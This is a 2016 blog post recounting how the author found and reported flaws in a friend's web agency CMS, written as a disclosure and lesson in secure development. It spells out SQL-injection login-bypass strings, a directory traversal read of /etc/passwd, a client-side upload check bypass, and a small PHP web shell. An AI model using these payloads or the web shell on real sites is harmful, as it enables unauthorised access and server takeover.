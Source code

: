 ```yaml
---
title:  "A Web Agency's Vulnerable Website"
date:   2016-01-23 00:00:00
description: One Fine Evening's Pastime
---
```


This article covers a company profile website. The company is owned by a friend of mine. He runs a web agency, offering his clients custom applications based on a CMS they developed. All of the things mentioned in this article has been reported to the agency to be fixed.

It should be noted not every version of their CMS is vulnerable. A later version of their CMS used in a SaaS business run by the same company is not vulnerable to the SQL injection on the admin login form and directory indexing.

#### How It Began

The story started in early November 2015. I found that [directory indexing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing) was enabled on his web agency's company profile website. After looking at the files I could see, I found out the website's admin login page and the structure of their company's CMS.

Knowing that he's running another business, I tried checking out his other business' website. Directory indexing was not enabled in this site, but I found out that they're using the same CMS engine.

I notified him for the directory indexing on his web agency (we'll call it Alpha Web Agency), and told him that directory indexing leaked some information about the structure for his SaaS business' website (we'll call it Beta Online Services). It was fixed after a few days.

That's how I gain a little knowledge on their CMS structure, and how I could perform the next steps specifically on the admin panel.

#### Two Months Later

On a Saturday evening, I decided to come back to Alpha Web Agency's website. I didn't really expect to find anything there, I just want to kill some time while waiting for a software installation to finish.

I checked once again to make sure that directory indexing is not enabled on the site. After that, I went straight to the admin login form, as I already know the exact path.

I tried to use this login credentials on the login form.

```
Username: '
Password: '
```

The application gave me an unexpected response.

![Login Response](/assets/images/posts/alpha-web-agency-01.png)

The login form is vulnerable to SQL injection. I didn't try it when I went to Alpha Web Agency's site in November 2015. I tried to bypass the authentication sequence.

```
Username: ' OR 1=1--
Password: ' OR 1=1--
```

I still got the same response as before. So I tried another one.

```
Username: ' OR 1=1#
Password: ' OR 1=1#
```

And the admin panel is served.

![Admin Panel](/assets/images/posts/alpha-web-agency-02.png)

The navigation in the admin panel seems to be vulnerable to directory traversal, and I tried to insert the path to `/etc/passwd` file as the parameter value.

![Directory Traversal](/assets/images/posts/alpha-web-agency-03.png)

The admin can upload images in several menu functions. The image files should be limited to `jpg`, `gif`, and `png` files. But it's only validated with JavaScript, disabling the form submission button to be clicked when the script detected invalid file extension.

We can always disable JavaScript on modern browsers, and I successfully uploaded a PHP file.

![Upload Validation Bypass](/assets/images/posts/alpha-web-agency-04.png)

This is the file I uploaded.

```php
<?php
echo '<pre>';
echo shell_exec($_GET['cmd']);
echo '</pre>';
?>
```

The PHP configuration on the server prevents the `shell_exec` from running, but it should be possible to do other things with an uploaded PHP file.

Beta Online Services' website is not vulnerable to SQL injection on the login form. But it's possible that it also suffers from the directory traversal vulnerability and missing upload validation on the backend. Beta Online Services is started a few years after Alpha Web Agency, therefore I assume that it's using a newer version of the CMS. Hence, some of the vulnerabilities has been fixed for Beta Online Services' website.

#### Conclusion

The report regarding the existing vulnerabilities has been sent to Alpha Web Agency, and they should be on the process of patching it. But maybe we need to have some talk about how the vulnerabilities could exist.

It's a small company run mainly by the owner. The owner started out freelancing by himself, and after a while he started to build components for future projects. He ended up developing a CMS and templates for projects. After a while, he hired a few people to help with the projects and the company is formed.

The CMS and templates might be built with project timeline in mind, and focused mainly just to have the functions running. The company is a very small company with only around five workers including the owner himself. Their hands being full with keeping up with the clients' requests in tight deadlines might be one reason that they didn't have much time to review the security of their system. Not to mention that they're also need manpower to keep Beta Online Services running.

To prevent similar problems from appearing in the future, the company might need to spare some time reviewing their code, examining their server configurations, and testing their system's security. Maybe some more manpower will help, especially security-aware web developers and administrators.